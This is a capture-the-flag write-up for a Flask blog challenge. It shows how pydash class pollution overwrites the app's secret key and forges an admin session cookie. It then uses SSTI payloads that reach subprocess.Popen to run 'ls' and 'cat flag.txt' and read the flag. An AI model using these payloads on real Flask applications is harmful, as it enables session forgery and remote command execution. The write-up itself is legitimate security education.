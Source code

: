 # Anozer blog

![head](./head.png)

## Website overview

The website is a simple blog, where you can login/logout, register and create articles.

By looking at the source code of the app, we can see an interesting line.

```py
@app.route("/articles/<name>")
def render_page(name):
    article_content = articles[name]
    if article_content == None:
        pass
    if 'user' in session and users[session['user']['username']]['seeTemplate'] != False:
        article_content = render_template_string(article_content)
    return render_template('article.html', article={'name':name, 'content':article_content})
```

This code says that if we have the attribute 
```py
users[session['user']['username']]['seeTemplate']
```
then we can render the strings, which leads a SSTI (Server Side Template Injeection).

Unfortunately, the default value for seeTemplate is False for a new user.
```py
def create(self, username, password):
    if username in self.users:
        return 0
    self.users[username]= {'password': hashlib.sha256(password.encode()).hexdigest(), 'restricted': True, 'seeTemplate': False}
    return 1
```
And only the admin user has is enabled.

```py
def __init__(self):
    self.users['admin'] = {'password': hashlib.sha256("hehe".encode()).hexdigest(), 'restricted': False, 'seeTemplate':True }
    # different password for remote app
```

We can turn on seeTemplate, but once again, se are stuck, cause it's only if the user is not restricted (so the admin).

```py
def seeTemplate(self, username, value):
    if username in self.users and self.users[username].restricted == False:
        self.users[username].seeTemplate = value
```

To exploit the app, let's look into what appens when we create a new article.

```py
def set(self, article_name, article_content):
    pydash.set_(self, article_name, article_content)
    return True
```

Here, pydash is used to add an attribute to the class, so if we do 

```py
article = Article() # the article class
article.set("hello", "hi")

# article.hello = hi
```

With this, we cans do prototype pollution.

Let's exploit it to change the secret flask token.

It was hard to find the payload because the flask token was in another file. But with

```py
__class__.__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
We can set the token to `hehe` for example.

Then, we only have to put the same payload in local, and login with admin, so that we can retreive the signed cookie with the key we choosed (here it's "hehe").

This gives the cookie 
```
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn19.ZFeZFA.-1IXSyYKGrAzpV1ejauts_IBgXI
```

Now that we have the cookie, we only have to set the cookie for the remote server and refresh the page. We can see that we are now authentified as admin.

Now it's just a basic SSTI. By creating articles with a random name and 
```py
{{"".__class__.__mro__[1].__subclasses__()}}
```
we can see all modules.

!["modules"](./liste_process.png)

Then we need to find the index of subprocess.Popen, after some research, it appears to be 352

```py
{{"".__class__.__mro__[1].__subclasses__()[352]}}
```

![subprocess](./popen.png)

Then we just have to do a ls

```py
{{"".__class__.__mro__[1].__subclasses__()[352]("ls", shell=True, stdout=-1).communicate()}}
```

![ls](./ls.png)

We can see that the flag is just there. We only need to cat it.

```py
{{"".__class__.__mro__[1].__subclasses__()[352]("cat flag.txt", shell=True, stdout=-1).communicate()}}
```

![flag](./flag.png)

And here we got the flag PWNME{de3P_pOL1uTi0n_cAn_B3_D3s7rUctIv3}.

Thanks for the challenge !!
